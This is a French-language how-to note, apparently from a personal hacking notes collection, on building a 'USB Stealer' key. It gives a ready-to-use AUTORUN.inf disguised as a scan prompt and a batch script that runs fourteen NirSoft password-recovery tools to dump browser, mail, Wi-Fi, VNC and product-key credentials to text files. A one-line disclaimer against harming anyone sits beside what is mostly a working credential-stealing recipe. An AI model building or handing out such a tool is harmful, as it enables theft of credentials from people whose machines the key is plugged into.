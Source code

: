 ```yaml
---
Title: USB Stealer
Catégorie: Hacking
Nature: Notes
Date de création: 12/09/2020
---
```


# Création d'une Clé USB Stealer

## Introduction
USB Stealer est une clé USB capable d'aspirer tous les mots de passe d'un PC (navigateurs, mail, réseaux, ...). Il scanne un PC et récupère automatiquement tous les identifiants détectables.
Ceci peut être utile, par exemple, pour récupérer ses propres mots de passe ou de ceux de ses utilisateurs avant d'effectuer une réinitialisation complète de leurs PC. **Mais à ne jamais utiliser pour nuire à quelq'un!!!**.
Dans cette note, nous allons voir comment en créer une.


## Préparation de la clé
Nous allons utiliser une clé USB quelconque et la formater. Pas besoin d'une clé neuve ou taille grande, juste une veille clé d'1 giga peut bien faire l'affaire.

## Création d'un fichier AUTORUN
Maintenant que la clé est bien formatée, donc prête, nous allons créer dedans le fichier **AUTORUN.inf**. Dans ce fichier, nous allons ajouter le contenu ci-dessous :
```
[autorun]
open=launch.bat
ACTION=Passer un scan
```
puis enregistrer le fichier.

## Création du Batch
Une fois que le fichier **AUTORUN** est créé, nous allons créer le fichier **launch.bat** qui va contenir les instructions ci-dessous :
```
Start mspass.exe /stext mspass.txt
Start mailpv.exe /stext mailpv.txt
Start iepv.exe /stext iepv.txt
Start PasswordFox.exe /stext PasswordFox.txt
Start OperaPassView.exe /stext OperaPassView.txt
Start ChromePass.exe /stext ChromePass.txt
Start Dialupass.exe /stext Dialupass.txt
Start netpass.exe /stext netpass.txt
Start WirelessKeyView.exe /stext WirelessKeyView.txt
Start BulletsPassView.exe /stext BulletsPassView.txt
Start VNCPassView.exe /stext VNCPassView.txt
Start OpenFilesView.exe /stext OpenFilesView.txt
Start ProducKey.exe /stext ProducKey.txt
Start USBDeview.exe /stext USBDeview.txt          
```
## Construction de la bibliothèque de logiciels
Le Batch contient plusieurs instructions, chacun invoquant un outil bien précis. Donc, nous allons installer sur la clé l'ensemble de ces outils. Ces derniers sont disponibles sur le site de [Nirsoft](https://www.nirsoft.net/). Voici la liste :
```
- Mspass
- Mailpv
- Iepv
- PasswordFox
- OperaPassView
- ChromePass
- Dialupass
- Netpass
- WirelessKeyView
- BulletsPassView
- VNCPassView
- OpenFilesView
- ProducKey
- USBDeview
```
> On peut ajouter/retirer les outils non voulus. Cependant, dans ce cas, il faut modifier le batch en conséquence.

## Test de la clé
Maintenant que la clé est configurée, nous allons la tester. Pour cela, nous allons la débrancher puis la rebrancher sur le PC. Si tout est bien fait, une fenêtre devrait apparaître sur l'écran proposant de lancer un scan du PC. Confirmons le scan. A partir de ce moment, tous les outils vont être sollicités pour parcourir le PC à la recherche des identifiants. A la fin de l'opération, les mots de passe récupérés seront stoqués dans le fichier **.txt** de chaque outil.

# Source
- Magazine **Hack & Crack n°28**
